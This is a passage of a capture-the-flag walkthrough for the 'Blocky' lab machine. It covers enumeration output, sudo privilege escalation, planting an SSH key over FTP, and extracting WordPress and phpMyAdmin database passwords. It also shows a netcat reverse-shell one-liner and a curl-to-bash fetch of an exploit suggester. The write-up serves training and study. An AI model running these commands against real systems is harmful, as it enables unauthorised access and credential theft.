drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  390 May 13  2016 304.php
-rw-r--r-- 1 www-data www-data  382 May 13  2016 305.php
-rw-r--r-- 1 www-data www-data  391 May 13  2016 306.php
-rw-r--r-- 1 www-data www-data  387 May 13  2016 400.php
-rw-r--r-- 1 www-data www-data  390 May 13  2016 401.php
-rw-r--r-- 1 www-data www-data  402 May 13  2016 402.php
-rw-r--r-- 1 www-data www-data  381 May 13  2016 403.php
-rw-r--r-- 1 www-data www-data  381 May 13  2016 404.php
-rw-r--r-- 1 www-data www-data  408 May 13  2016 405.php
-rw-r--r-- 1 www-data www-data  396 May 13  2016 406.php
-rw-r--r-- 1 www-data www-data  441 May 13  2016 407.php
-rw-r--r-- 1 www-data www-data  399 May 13  2016 408.php
-rw-r--r-- 1 www-data www-data  378 May 13  2016 409.php
-rw-r--r-- 1 www-data www-data  366 May 13  2016 410.php
-rw-r--r-- 1 www-data www-data  399 May 13  2016 411.php
-rw-r--r-- 1 www-data www-data  411 May 13  2016 412.php
-rw-r--r-- 1 www-data www-data  426 May 13  2016 413.php
-rw-r--r-- 1 www-data www-data  417 May 13  2016 414.php
-rw-r--r-- 1 www-data www-data  420 May 13  2016 415.php
-rw-r--r-- 1 www-data www-data  447 May 13  2016 416.php
-rw-r--r-- 1 www-data www-data  408 May 13  2016 417.php
-rw-r--r-- 1 www-data www-data  478 Jun 10  2016 418.php
-rw-r--r-- 1 www-data www-data  505 Jun 10  2016 428.php
-rw-r--r-- 1 www-data www-data  549 Jun 10  2016 429.php
-rw-r--r-- 1 www-data www-data  535 Jun 10  2016 431.php
-rw-r--r-- 1 www-data www-data  417 May 13  2016 500.php
-rw-r--r-- 1 www-data www-data  399 May 13  2016 501.php
-rw-r--r-- 1 www-data www-data  387 May 13  2016 502.php
-rw-r--r-- 1 www-data www-data  411 May 13  2016 503.php
-rw-r--r-- 1 www-data www-data  399 May 13  2016 504.php
-rw-r--r-- 1 www-data www-data  432 May 13  2016 505.php
-rw-r--r-- 1 www-data www-data  535 Jun 10  2016 511.php
-rw-r--r-- 1 www-data www-data  867 May 13  2016 Unknown.php

/var/www/html/wp-includes/Requests/Exception/Transport:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  918 May 13  2016 cURL.php

/var/www/html/wp-includes/Requests/Proxy:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 3.4K May 13  2016 HTTP.php

/var/www/html/wp-includes/Requests/Response:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.1K May 13  2016 Headers.php

/var/www/html/wp-includes/Requests/Transport:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  15K Oct  5  2016 cURL.php
-rw-r--r-- 1 www-data www-data  13K Oct  5  2016 fsockopen.php

/var/www/html/wp-includes/Requests/Utility:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K May 13  2016 CaseInsensitiveDictionary.php
-rw-r--r-- 1 www-data www-data  829 May 13  2016 FilteredIterator.php

/var/www/html/wp-includes/rest-api:
total 100K
drwxr-xr-x  4 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  25K May 22  2017 class-wp-rest-request.php
-rw-r--r--  1 www-data www-data 7.5K Jun 10  2016 class-wp-rest-response.php
-rw-r--r--  1 www-data www-data  38K May 19  2017 class-wp-rest-server.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 endpoints
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 fields

/var/www/html/wp-includes/rest-api/endpoints:
total 324K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  24K Jan  4  2017 class-wp-rest-attachments-controller.php
-rw-r--r-- 1 www-data www-data  53K May 10  2017 class-wp-rest-comments-controller.php
-rw-r--r-- 1 www-data www-data  18K Nov  8  2016 class-wp-rest-controller.php
-rw-r--r-- 1 www-data www-data  71K May 10  2017 class-wp-rest-posts-controller.php
-rw-r--r-- 1 www-data www-data 9.1K Jan 26  2017 class-wp-rest-post-statuses-controller.php
-rw-r--r-- 1 www-data www-data 8.9K Jan 26  2017 class-wp-rest-post-types-controller.php
-rw-r--r-- 1 www-data www-data  17K May 10  2017 class-wp-rest-revisions-controller.php
-rw-r--r-- 1 www-data www-data 9.2K Dec 27  2016 class-wp-rest-settings-controller.php
-rw-r--r-- 1 www-data www-data 9.9K Jan 26  2017 class-wp-rest-taxonomies-controller.php
-rw-r--r-- 1 www-data www-data  30K May 10  2017 class-wp-rest-terms-controller.php
-rw-r--r-- 1 www-data www-data  43K Apr  5  2017 class-wp-rest-users-controller.php

/var/www/html/wp-includes/rest-api/fields:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  743 Oct 30  2016 class-wp-rest-comment-meta-fields.php
-rw-r--r-- 1 www-data www-data  14K Dec  2  2016 class-wp-rest-meta-fields.php
-rw-r--r-- 1 www-data www-data 1.1K Oct 30  2016 class-wp-rest-post-meta-fields.php
-rw-r--r-- 1 www-data www-data 1.1K Oct 30  2016 class-wp-rest-term-meta-fields.php
-rw-r--r-- 1 www-data www-data  716 Oct 30  2016 class-wp-rest-user-meta-fields.php

/var/www/html/wp-includes/SimplePie:
total 392K
drwxr-xr-x  9 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 3.6K Nov 21  2012 Author.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Cache
-rw-r--r--  1 www-data www-data 4.2K Nov 21  2012 Cache.php
-rw-r--r--  1 www-data www-data 4.5K Nov 21  2012 Caption.php
-rw-r--r--  1 www-data www-data 3.7K Nov 21  2012 Category.php
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 Content
-rw-r--r--  1 www-data www-data 3.3K Nov 21  2012 Copyright.php
-rw-r--r--  1 www-data www-data 2.3K Nov 21  2012 Core.php
-rw-r--r--  1 www-data www-data 3.7K Nov 21  2012 Credit.php
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 Decode
-rw-r--r--  1 www-data www-data  27K Nov 21  2012 Enclosure.php
-rw-r--r--  1 www-data www-data 2.2K Nov  8  2012 Exception.php
-rw-r--r--  1 www-data www-data 9.5K Nov 21  2012 File.php
-rw-r--r--  1 www-data www-data 8.4K Nov 21  2012 gzdecode.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 HTTP
-rw-r--r--  1 www-data www-data  28K Nov 21  2012 IRI.php
-rw-r--r--  1 www-data www-data  96K Nov 21  2012 Item.php
-rw-r--r--  1 www-data www-data  11K Nov 21  2012 Locator.php
-rw-r--r--  1 www-data www-data  51K Jul  8  2013 Misc.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Net
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Parse
-rw-r--r--  1 www-data www-data  12K Nov 21  2012 Parser.php
-rw-r--r--  1 www-data www-data 3.4K Nov 21  2012 Rating.php
-rw-r--r--  1 www-data www-data 5.9K Nov 21  2012 Registry.php
-rw-r--r--  1 www-data www-data 3.8K Nov 21  2012 Restriction.php
-rw-r--r--  1 www-data www-data  16K Sep 11  2013 Sanitize.php
-rw-r--r--  1 www-data www-data  21K Nov 21  2012 Source.php
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 XML

/var/www/html/wp-includes/SimplePie/Cache:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 3.4K Nov 21  2012 Base.php
-rw-r--r-- 1 www-data www-data 4.7K Nov 21  2012 DB.php
-rw-r--r-- 1 www-data www-data 4.4K Nov 21  2012 File.php
-rw-r--r-- 1 www-data www-data 5.1K Nov 21  2012 Memcache.php
-rw-r--r-- 1 www-data www-data  12K Nov 21  2012 MySQL.php

/var/www/html/wp-includes/SimplePie/Content:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 Type

/var/www/html/wp-includes/SimplePie/Content/Type:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 8.0K Nov 21  2012 Sniffer.php

/var/www/html/wp-includes/SimplePie/Decode:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 HTML

/var/www/html/wp-includes/SimplePie/Decode/HTML:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  17K Nov 21  2012 Entities.php

/var/www/html/wp-includes/SimplePie/HTTP:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  11K Nov 21  2012 Parser.php

/var/www/html/wp-includes/SimplePie/Net:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 7.4K Nov 21  2012 IPv6.php

/var/www/html/wp-includes/SimplePie/Parse:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  20K Oct 20  2015 Date.php

/var/www/html/wp-includes/SimplePie/XML:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 Declaration

/var/www/html/wp-includes/SimplePie/XML/Declaration:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 7.0K Nov 21  2012 Parser.php

/var/www/html/wp-includes/Text:
total 36K
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Jun  8  2017 Diff
-rw-r--r--  1 www-data www-data  13K Jun 28  2015 Diff.php

/var/www/html/wp-includes/Text/Diff:
total 24K
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 Engine
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 Renderer
-rw-r--r-- 1 www-data www-data 6.7K Jun 28  2015 Renderer.php

/var/www/html/wp-includes/Text/Diff/Engine:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  16K May 25  2013 native.php
-rw-r--r-- 1 www-data www-data 5.1K Feb 19  2010 shell.php
-rw-r--r-- 1 www-data www-data 8.2K Oct 24  2015 string.php
-rw-r--r-- 1 www-data www-data 2.2K May 25  2013 xdiff.php

/var/www/html/wp-includes/Text/Diff/Renderer:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 5.5K Feb 19  2010 inline.php

/var/www/html/wp-includes/theme-compat:
total 52K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 2.1K Jul  6  2016 comments.php
-rw-r--r--  1 www-data www-data  970 Mar 28  2016 embed-404.php
-rw-r--r--  1 www-data www-data 3.2K Jul  6  2016 embed-content.php
-rw-r--r--  1 www-data www-data  479 Mar 28  2016 embed.php
-rw-r--r--  1 www-data www-data  438 May 25  2016 footer-embed.php
-rw-r--r--  1 www-data www-data 1.1K Jul  6  2016 footer.php
-rw-r--r--  1 www-data www-data  704 May 25  2016 header-embed.php
-rw-r--r--  1 www-data www-data 1.9K Jul  6  2016 header.php
-rw-r--r--  1 www-data www-data 4.0K Jul  6  2016 sidebar.php

/var/www/html/wp-includes/widgets:
total 152K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 5.3K Aug 26  2016 class-wp-nav-menu-widget.php
-rw-r--r--  1 www-data www-data 5.1K May 19  2017 class-wp-widget-archives.php
-rw-r--r--  1 www-data www-data 2.9K Mar 21  2016 class-wp-widget-calendar.php
-rw-r--r--  1 www-data www-data 5.6K May 19  2017 class-wp-widget-categories.php
-rw-r--r--  1 www-data www-data 6.9K May 22  2016 class-wp-widget-links.php
-rw-r--r--  1 www-data www-data 6.0K May 25  2017 class-wp-widget-media-audio.php
-rw-r--r--  1 www-data www-data  11K May 25  2017 class-wp-widget-media-image.php
-rw-r--r--  1 www-data www-data  13K May 21  2017 class-wp-widget-media.php
-rw-r--r--  1 www-data www-data 8.1K May 25  2017 class-wp-widget-media-video.php
-rw-r--r--  1 www-data www-data 3.5K May 19  2017 class-wp-widget-meta.php
-rw-r--r--  1 www-data www-data 4.7K May 19  2017 class-wp-widget-pages.php
-rw-r--r--  1 www-data www-data 5.7K May 19  2017 class-wp-widget-recent-comments.php
-rw-r--r--  1 www-data www-data 4.8K May 19  2017 class-wp-widget-recent-posts.php
-rw-r--r--  1 www-data www-data 3.7K Mar 21  2016 class-wp-widget-rss.php
-rw-r--r--  1 www-data www-data 2.6K Mar 21  2016 class-wp-widget-search.php
-rw-r--r--  1 www-data www-data 5.5K May 22  2017 class-wp-widget-tag-cloud.php
-rw-r--r--  1 www-data www-data 6.3K May 16  2017 class-wp-widget-text.php


### INTERESTING FILES ####################################
Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget


Installed compilers:
ii  libllvm3.8:amd64                   1:3.8-2ubuntu4                             amd64        Modular compiler and toolchain technologies, runtime library


Can we read/write sensitive files:
-rw-r--r-- 1 root root 1702 Jul  2  2017 /etc/passwd
-rw-r--r-- 1 root root 811 Jul  2  2017 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1024 Jul  2  2017 /etc/shadow


Can't search *.conf files as no keyword was entered

Can't search *.log files as no keyword was entered

Can't search *.ini files as no keyword was entered

All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 2084 Sep  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 144 Jul  2  2017 /etc/kernel-img.conf
-rw-r--r-- 1 root root 100 Nov 25  2015 /etc/sos.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 3028 Feb 15  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 6816 Nov 29  2016 /etc/overlayroot.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 350 Jul  2  2017 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 703 May  5  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 7788 Jul  2  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf


Current user's history files:
-rw------- 1 notch notch   1 Dec 24 09:35 /home/notch/.bash_history
-rw------- 1 root  root  369 Jul  2  2017 /home/notch/.mysql_history


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Feb 15  2017 .
drwxr-xr-x 14 root root 4096 Jul  2  2017 ..


We're a member of the (lxd) group - could possibly misuse these rights!:
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


### SCAN COMPLETE ####################################
notch@Blocky:~$
```

```sh
notch@Blocky:~$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$
```

- Privilege escalation using ``sudo``

```sh
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# ls
root.txt
root@Blocky:~# 
```

```sh
root@Blocky:~# cat root.txt
0a9694a5b4d272c694679f7860f1cd5f
root@Blocky:~#
```

```sh
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
notch@Blocky:~$
```

###### Bonus - FTP, Wordpress Enumeration

```sh
root@kali:~/.ssh# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:biRyQ/+BavOrflIDOcZ2EDZhU8WWixWdqYABVvkdNKY root@kali
The key's randomart image is:
+---[RSA 2048]----+
|    ooXB.+*+ o   |
|   . o+o.o*.+    |
|     ..+E* +     |
|     .B.+.+      |
|    .o++S .      |
|     o *o. .     |
|      +.o..      |
|     ..+.        |
|     .o+o.       |
+----[SHA256]-----+
root@kali:~/.ssh# ls
id_rsa  id_rsa.pub  known_hosts
root@kali:~/.ssh# cp id_rsa.pub /root/blocky/
root@kali:~/.ssh# cd /root/blocky/
root@kali:~/blocky#
```

```sh
root@kali:~/blocky# ftp 10.10.10.37
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:root): notch
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxrwxr-x   7 notch    notch        4096 Jul  3  2017 minecraft
-r--------   1 notch    notch          32 Jul  3  2017 user.txt
226 Transfer complete
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
200 PORT command successful
150 Opening BINARY mode data connection for id_rsa.pub
226 Transfer complete
391 bytes sent in 0.00 secs (8.6718 MB/s)
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 notch    notch         391 Jan 26 12:59 id_rsa.pub
226 Transfer complete
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
ftp>
```

```sh
root@kali:~/blocky# ssh notch@10.10.10.37
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jan 26 05:25:20 2018 from 10.10.14.6
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cd /var/www/html/
notch@Blocky:/var/www/html$ ls
index.php    plugins      wiki             wp-admin            wp-comments-post.php  wp-config-sample.php  wp-cron.php  wp-links-opml.php  wp-login.php  wp-settings.php  wp-trackback.php
license.txt  readme.html  wp-activate.php  wp-blog-header.php  wp-config.php         wp-content            wp-includes  wp-load.php        wp-mail.php   wp-signup.php    xmlrpc.php
notch@Blocky:/var/www/html$
notch@Blocky:/var/www/html$ cat wp-config.php | grep -i pass
/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
notch@Blocky:/var/www/html$
notch@Blocky:/var/www/html$ cat wp-config.php | grep -i DB_USER
define('DB_USER', 'wordpress');
notch@Blocky:/var/www/html$
```

```sh
notch@Blocky:/var/www/html$ cd /etc/phpmyadmin/
notch@Blocky:/etc/phpmyadmin$ grep -iRn "pass"
lighttpd.conf:16:	auth.backend = "htpasswd"
lighttpd.conf:17:	auth.backend.htpasswd.userfile = "/etc/phpmyadmin/htpasswd.setup"
grep: htpasswd.setup: Permission denied
apache.conf:34:            AuthUserFile /etc/phpmyadmin/htpasswd.setup
config.inc.php:13: * NOTE: do not add security sensitive data to this file (like passwords)
config.inc.php:78:    $cfg['Servers'][$i]['controlpass'] = $dbpass;
config.inc.php:101:    /* Uncomment the following to enable logging in to passwordless accounts,
config.inc.php:103:    // $cfg['Servers'][$i]['AllowNoPassword'] = TRUE;
config.inc.php:115:/* Uncomment the following to enable logging in to passwordless accounts,
config.inc.php:117:// $cfg['Servers'][$i]['AllowNoPassword'] = TRUE;
config.inc.php:127:// $cfg['Servers'][$i]['controlpass'] = 'pmapass';
grep: config-db.php: Permission denied
notch@Blocky:/etc/phpmyadmin$
```

```
http://10.10.10.37/phpmyadmin
```

```
wordpress
kWuvW2SYsABmzywYRdoD
```


```sh
root@kali:~/blocky# php -a
Interactive mode enabled

php > echo password_hash('kan1shka', PASSWORD_DEFAULT);
$2y$10$Jw.ZYAcFXgDu5KjM7omHTeFoXdmga2LLjov2mL1Cp/YiTV22cHD0S
php > exit
root@kali:~/blocky#
```


```
http://10.10.10.37/wp-admin
```

```
notch
kan1shka
```


```
http://10.10.10.37/?cmd=ls
```


[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 6666 >/tmp/f
```




[``Upgrading simple shells to fully interactive TTYs``](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```sh
root@kali:~/blocky# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.37] 42082
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@Blocky:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 6666
root@kali:~/blocky# echo $TERM
xterm-256color
root@kali:~/blocky# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/blocky# stty raw -echo
root@kali:~/blocky# nc -nlvp 6666
                                 reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@Blocky:/var/www/html$ stty rows 51 columns 204
www-data@Blocky:/var/www/html$
```

```sh
www-data@Blocky:/var/www/html$ cd /etc/phpmyadmin/
www-data@Blocky:/etc/phpmyadmin$ cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='8YsqfCTnvxAUeduzjNSXe22';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='';
$dbtype='mysql';
www-data@Blocky:/etc/phpmyadmin$
```

```sh
www-data@Blocky:/etc/phpmyadmin$ su -
Password:
su: Authentication failure
www-data@Blocky:/etc/phpmyadmin$
www-data@Blocky:/etc/phpmyadmin$ su - notch
Password:
notch@Blocky:~$
notch@Blocky:~$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$
notch@Blocky:~$ sudo su
root@Blocky:/home/notch#
```

###### Bonus - Becoming root using CVE-2017-6074 (Unstable)

```sh
root@kali:~/blocky# git clone https://github.com/mzet-/linux-exploit-suggester.git
Cloning into 'linux-exploit-suggester'...
remote: Counting objects: 121, done.
remote: Total 121 (delta 0), reused 0 (delta 0), pack-reused 121
Receiving objects: 100% (121/121), 182.20 KiB | 1.28 MiB/s, done.
Resolving deltas: 100% (60/60), done.
root@kali:~/blocky# cd linux-exploit-suggester/
root@kali:~/blocky/linux-exploit-suggester# ls
LICENSE  linux-exploit-suggester.sh  README.md
root@kali:~/blocky/linux-exploit-suggester#
```

```sh
root@kali:~/blocky/linux-exploit-suggester# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.37 - - [26/Jan/2018 08:37:22] "GET /linux-exploit-suggester.sh HTTP/1.1" 200 -
```

```sh
notch@Blocky:~$ curl http://10.10.14.6:8000/linux-exploit-suggester.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 43052  100 43052    0     0  42274      0  0:00:01  0:00:01 --:--:-- 42290

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Package list: from current OS

Possible Exploits:

[+] [CVE-2015-3290] espfix64_NMI

   Details: http://www.openwall.com/lists/oss-security/2015/08/04/8
   Download URL: https://www.exploit-db.com/download/37722

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Tags: ubuntu=14.04,fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [N/A] target_offset

   Details: https://www.exploit-db.com/exploits/40049/
   Tags: ubuntu=16.04(kernel:4.4.0-21)
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/40053.zip
   Comments: ip_tables.ko needs to be loaded

[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Tags: ubuntu=16.04(kernel:4.4.0-62)
   Download URL: https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40616

